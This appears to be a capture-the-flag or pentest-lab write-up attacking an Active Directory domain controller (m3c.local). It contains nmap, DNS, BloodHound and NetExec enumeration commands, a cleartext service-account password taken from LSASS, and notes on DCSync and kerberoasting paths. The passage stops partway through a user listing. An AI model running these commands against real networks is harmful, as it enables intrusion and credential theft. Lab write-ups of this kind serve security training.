We can use Rustscan and perform a scan over the machine on the TCP ports showing that this might be indeed the DC?



And speficial scans:

```
PORT      STATE SERVICE       REASON         VERSION
53/tcp    open  domain        syn-ack ttl 64 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 64 Microsoft Windows Kerberos (server time: 2024-06-11 10:46:04Z)
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
389/tcp   open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: m3c.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 64
464/tcp   open  kpasswd5?     syn-ack ttl 64
593/tcp   open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 64
3268/tcp  open  ldap          syn-ack ttl 64 Microsoft Windows Active Directory LDAP (Domain: m3c.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-06-11T10:47:36+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=m3dc.m3c.local
| Issuer: commonName=m3dc.m3c.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-10T02:51:30
| Not valid after:  2024-12-10T02:51:30
| MD5:   d906:b6c5:be55:cf79:d7dc:f6f8:5a4e:27f1
| SHA-1: 743b:a54d:8ff7:7ba8:1b57:6cc9:b906:705b:364e:b22a
| -----BEGIN CERTIFICATE-----
| MIIC4DCCAcigAwIBAgIQMenfu7j2jLBO6uptvh6QWzANBgkqhkiG9w0BAQsFADAZ
| MRcwFQYDVQQDEw5tM2RjLm0zYy5sb2NhbDAeFw0yNDA2MTAwMjUxMzBaFw0yNDEy
| MTAwMjUxMzBaMBkxFzAVBgNVBAMTDm0zZGMubTNjLmxvY2FsMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEAvYp7X8bpN1gWqXZx54aIjnzRkvwdxSj/E9rP
| THpcwGyQXpytxAaGtHke+A6Jg7THNEVv5hCKgANq8PfsyauIlPZJvBxKCE04kKjI
| 8B71EBQLOu3ZNmMBNyjtwfnqFO0A/SwWaFSOrbSUmq9c6EtfxWyC07yldDEnB/gZ
| taw/mekb8Fv+Y2OjYty7x5stHRltxVKnc9RoasXzjrmOwi9o2UYr/0ZW4m1/ZVFi
| 6/NvSiRT0wIHt10DqLHmHaS8hLVch7zS9fWvy+inAvtAhzMCXzerqEuXoJJRrmOq
| p5N07WsQMLDdRTQfeH5hF3jjJbwUqTuKK3HD1H9AbZUpcKfnEwIDAQABoyQwIjAT
| BgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQAD
| ggEBAEl6ys4KcrE5ZzOCjWloSBdfn/tqwvIJqSCzDMOeHSCtytaQA0pNDFY/LZky
| HeSqqZ5Em5HSRfhn5JZNKinUlVsG07Qq7jcI77TYsJYfnlry82HccnX5NaS0f9qV
| UD1F0fCfh9XXhxIJs99lndJ9eRrY4xwPb5vC6QIojd3TWKlSsmeuqMkC/0V3Y3wv
| Pl1NLu5SblbTdZpFuUNf09XAwflW5xx3cddi9safktA4HCTVYVOQtSeCnLmreToT
| cQByDcrg6zMnqaiUpLnf7MJssW+WYJHwR6xQTI33wogAVI2OVftSI+G+UvoEVMds
| 1GNgzg9xeWOllbrjErU4+0Q91Zk=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: M3C
|   NetBIOS_Domain_Name: M3C
|   NetBIOS_Computer_Name: M3DC
|   DNS_Domain_Name: m3c.local
|   DNS_Computer_Name: m3dc.m3c.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-11T10:46:56+00:00
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 64 .NET Message Framing
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 64 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49681/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
```

We can see that this is our first DC named: CYBERNETICS-M3DC carrying the m3c.local AD domain as well.

I will execute the same scan but also on the UDP? But nothing juicy came out so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# nmap -sU -F 10.9.20.10                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-11 12:56 CEST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 74.50% done; ETC: 12:56 (0:00:04 remaining)
Nmap scan report for m3dc.m3c.local (10.9.20.10)
Host is up (0.023s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
```

&nbsp;

# DNS

On the dns we can perform some easier task like trying to get all the records our of the DNS, but nothing juicy came our so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# dig any m3c.local @10.9.20.10

; <<>> DiG 9.19.21-1+b1-Debian <<>> any m3c.local @10.9.20.10
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59527
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;m3c.local.			IN	ANY

;; ANSWER SECTION:
m3c.local.		600	IN	A	10.9.20.10
m3c.local.		3600	IN	NS	m3dc.m3c.local.
m3c.local.		3600	IN	SOA	m3dc.m3c.local. hostmaster.m3c.local. 563 900 600 86400 3600

;; ADDITIONAL SECTION:
m3dc.m3c.local.		3600	IN	A	10.9.20.10

;; Query time: 27 msec
;; SERVER: 10.9.20.10#53(10.9.20.10) (TCP)
;; WHEN: Tue Jun 11 12:59:05 CEST 2024
;; MSG SIZE  rcvd: 136
```

On same way we can try to perform a SOA zone transfer? But it fails:



And lasty we might try performing a dns fuzzing and check if we can brute any possible subdomain?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# dnsenum --dnsserver 10.9.20.10 --enum -p 0 -s 0  -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt m3c.local 
dnsenum VERSION:1.3.1

-----   m3c.local   -----


Host's addresses:
__________________

m3c.local.                               600      IN    A        10.9.20.10


Name Servers:
______________

m3dc.m3c.local.                          3600     IN    A        10.9.20.10


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: m3dc.m3c.local at /usr/bin/dnsenum line 892 thread 1.

Trying Zone Transfer for m3c.local on m3dc.m3c.local ... 
AXFR record query failed: no nameservers


Brute forcing with /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:
_______________________________________________________________________________________

db.m3c.local.                            3600     IN    A        10.9.20.11
gc._msdcs.m3c.local.                     600      IN    A        10.9.20.10
domaindnszones.m3c.local.                600      IN    A        10.9.20.10
forestdnszones.m3c.local.                600      IN    A        10.9.20.10
mq.m3c.local.                            3600     IN    A        10.9.20.12


Launching Whois Queries:
```

Nothing juicy came our so far, so we need to move on!

&nbsp;

# SMB

Easiest here is to run automatic tools like Enum4linux-ng:



Yeah it footprinted the os build but nothing more that what i already know... What about possible shares? Nothing so far



So far without a valid set of credentials we need to move on...

&nbsp;

# KERBEROS

Here we could try to perform some fuzzing of the user avalable of this domain. We could try using a wordlist of common usernames and hope to find some of these users with AS-REP roasting on?



Here we can start with jsmit.txt then try john.smith.txt and lastly john.txt.

But after a while I got no results so I will try with john.txt, but even here it is failing so i will using the huge xato 10mln usernames :D



But even with this is taking forever! I guess we need to move on for now

# Back on Track

With the svc_sql credentials we found out by dumping the LSASS.exe secrets from the M3SQLW server we can dump the whole ad remotely to be parsed via Bloodhound.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# bloodhound-python -d "m3c.local" -u "svc_sql" -p "ef8Mahvae2j1" -ns 10.9.20.10 -c All --zip --dns-tcp
INFO: Found AD domain: m3c.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: m3dc.m3c.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to GC LDAP server: m3dc.m3c.local
INFO: Connecting to LDAP server: m3dc.m3c.local
INFO: Found 196 users
INFO: Found 74 groups
INFO: Found 12 gpos
INFO: Found 36 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: m3sqlw.m3c.local
INFO: Querying computer: m3webaw.m3c.local
INFO: Querying computer: m3dc.m3c.local
INFO: Done in 00M 15S
INFO: Compressing output into 20240611160255_bloodhound.zip
```

We can see another svc_apache that might be crackable if holding any SPN?



We can see that the SQL have delegation permissions on the WEBAPP internal server:



We can see the domain trust between cyber.local -> m3c.local



Many accounts with dcsync permissions:



The svc_apache is kerberoastable which means a SPN is held in place and it might be used on the WEBAPP server!

Next we can see that Norma.Braham(part of IT Admins) ahve DCsync on M3.local and svc_apache have WriteAccountRestrinctions on behalf of DC.



&nbsp;

# Attacking the AD

Now I will use NetExec to dump all the users from ad.

```
──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec ldap 10.9.20.10 -u "svc_sql" -p "ef8Mahvae2j1" --users
SMB         10.9.20.10      445    M3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:M3DC) (domain:m3c.local) (signing:True) (SMBv1:False)
LDAP        10.9.20.10      389    M3DC             [+] m3c.local\svc_sql:ef8Mahvae2j1 
LDAP        10.9.20.10      389    M3DC             [*] Total records returned: 195
LDAP        10.9.20.10      389    M3DC             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.9.20.10      389    M3DC             Administrator                 2020-01-07 18:04:30 10      Built-in account for administering the computer/domain      
LDAP        10.9.20.10      389    M3DC             Guest                         <never>             0       Built-in account for guest access to the computer/domain    
LDAP        10.9.20.10      389    M3DC             DefaultAccount                <never>             0       A user account managed by the system.                       
LDAP        10.9.20.10      389    M3DC             krbtgt                        2020-06-08 13:44:11 0       Key Distribution Center Service Account                     
LDAP        10.9.20.10      389    M3DC             Keith.Treadwell               2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Turner                   2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Antonio.Oneal                 2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Gregory.McNemar               2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Wallace.Dover                 2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mary.Menjivar                 2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             William.Ryan                  2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Courtney.Echevarria           2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Curtis.Scott                  2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Julia.Harvey                  2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Micheal.Crosley               2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Charlene.Butcher              2020-01-02 15:39:45 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lorraine.McDonald             2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             David.Gaines                  2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Elda.Martinez                 2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Ronald.Shepard                2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Justin.Doty                   2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Silvia.Harrison               2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Amanda.Green                  2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Terri.Benson                  2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Micki.Quintero                2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Christopher.Wiltse            2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Russell.Myers                 2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Angelica.Vanpelt              2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brian.Jones                   2020-01-02 15:39:46 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jennifer.Rector               2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Julie.Middendorf              2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Norma.Branham                 2020-01-02 15:39:47 1                                                                   
LDAP        10.9.20.10      389    M3DC             Kenneth.Kea                   2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Teressa.Gomez                 2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Clark                    2020-01-02 15:39:47 4                                                                   
LDAP        10.9.20.10      389    M3DC             Louise.Hilbert                2024-06-11 12:57:16 0                                                                   
LDAP        10.9.20.10      389    M3DC             Herbert.Hutchinson            2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Edward.Bedard                 2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Robert.Doi                    2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Maria.Holland                 2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Kevin.Lemmons                 2020-01-02 15:39:47 0                                                                   
LDAP        10.9.20.10      389    M3DC             Victor.Firkins                2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Martina.Baker                 2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Bryan.Galvan                  2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Stephen.Boggs                 2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brian.Hawkins                 2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Robert.Blood                  2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jerry.Brown                   2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Larry.Pepper                  2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Nora.Adams                    2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Scott.Ramirez                 2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Madeline.Oldfield             2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Herman.Garcia                 2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Willie.Burgess                2020-01-02 15:39:48 0                                                                   
LDAP        10.9.20.10      389    M3DC             Stephen.Kellogg               2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Kenneth.Noble                 2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Christian.Lloyd               2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Sheree.Cooper                 2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Norah.Martin                  2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Manuel.Levin                  2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jean.Summers                  2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Joshua.Nunnally               2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Rebecca.Mason                 2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Tommy.Hernandez               2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Linda.Garcia                  2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jennifer.Fitzpatrick          2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Carol.Gabler                  2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Teri.Branch                   2020-01-02 15:39:49 0                                                                   
LDAP        10.9.20.10      389    M3DC             Adell.Daniel                  2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mary.Stone                    2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Laura.Skidmore                2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Wendy.Sanchez                 2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brittney.Valdez               2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Victoria.Bozeman              2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Elsie.Bartz                   2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Andre.Smith                   2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jose.Fogle                    2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Annie.Conley                  2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             William.Crow                  2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Michael.Mullins               2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Sara.Phillips                 2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Edna.Hart                     2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Phyllis.Smith                 2020-01-02 15:39:50 0                                                                   
LDAP        10.9.20.10      389    M3DC             Adam.Vanderbilt               2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Craig.Johnson                 2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Smith                    2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Gary.McCrory                  2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Kenneth.Carter                2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Beverly.Mahoney               2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Margaret.Williams             2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Elfreda.Telles                2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Peter.Huntsman                2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Susan.Nation                  2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Manuel.Dube                   2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jason.Giannini                2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Danny.Runion                  2020-01-02 15:39:51 0                                                                   
LDAP        10.9.20.10      389    M3DC             Keneth.Messersmith            2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Sharon.Jennings               2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Carl.Rhoads                   2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Johanna.Norwood               2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Denise.Gragg                  2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Wayne.Anderson                2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Henry.Moore                   2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Marjorie.Donahue              2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Michelle.Schwindt             2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lisa.George                   2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mark.Hanover                  2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             George.Jack                   2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Michael.Whitt                 2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Miranda.Paxton                2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Louis.Gilman                  2020-01-02 15:39:52 0                                                                   
LDAP        10.9.20.10      389    M3DC             Beverly.Spencer               2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Wendy.Duff                    2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Carl.Murrah                   2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Terrell.Clifton               2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lauren.McDonald               2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mary.Knight                   2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Myrtle.Jenkins                2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Spencer.Wiley                 2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Carl.Ramirez                  2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Daniel.Jordan                 2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Anne.Adams                    2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Charles.Rodriguez             2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jack.Gonzalez                 2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lisa.Baldwin                  2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jason.Dyer                    2020-01-02 15:39:53 0                                                                   
LDAP        10.9.20.10      389    M3DC             Pauline.Gottschalk            2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Kenneth.Johnson               2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Laura.Swann                   2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Candelaria.Jones              2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Catherine.Cole                2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Samuel.Nadeau                 2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Harry.Chadwick                2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lawrence.Elia                 2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Elizabeth.Rice                2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Steven.Coleman                2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Joshua.Mabry                  2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Gabriel.Fox                   2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Eric.Green                    2020-01-02 15:39:54 0                                                                   
LDAP        10.9.20.10      389    M3DC             Darla.Bailey                  2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Dina.Jordan                   2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Ruth.Rogers                   2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mary.Powers                   2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Heather.Strum                 2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Tracy.Adams                   2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Lucius.Sheets                 2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Edna.Hammond                  2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Eleanor.Hansen                2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brian.Menzel                  2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Richard.Tarry                 2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mary.Lewis                    2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Marc.Nelson                   2020-01-02 15:39:55 0                                                                   
LDAP        10.9.20.10      389    M3DC             Rachel.Ford                   2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Henry.Donnelly                2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Ella.Sae                      2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             James.Mitchell                2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Chester.Turk                  2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Derrick.Holland               2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Tina.Lacasse                  2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Christopher.Harnois           2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Nanette.Long                  2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Ronald.Dorsey                 2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Emma.Bowers                   2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             Linda.Carlson                 2020-01-02 15:39:56 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Clarke                   2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Ola.Bishop                    2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Sabrina.Adams                 2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Robert.Merlin                 2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Jeffrey.Lyle                  2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brian.Smith                   2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Paula.Stephens                2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Dana.Warren                   2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Woodrow.Thompson              2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Frankie.Bennett               2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Ashbrook                 2020-01-02 15:39:57 0                                                                   
LDAP        10.9.20.10      389    M3DC             Luis.Blanton                  2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Brenda.Young                  2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Chris.Dunham                  2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Markita.Gonzales              2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Mildred.Larue                 2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Kimberly.Campbell             2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             David.Carr                    2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Hermine.Hall                  2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Wayne.Johnson                 2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Gail.Robinson                 2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Felipe.Gillum                 2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Edgar.Hagerman                2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             John.Chan                     2020-01-02 15:39:58 0                                                                   
LDAP        10.9.20.10      389    M3DC             Richard.Macleod               2020-01-02 15:39:59 0                                                                   
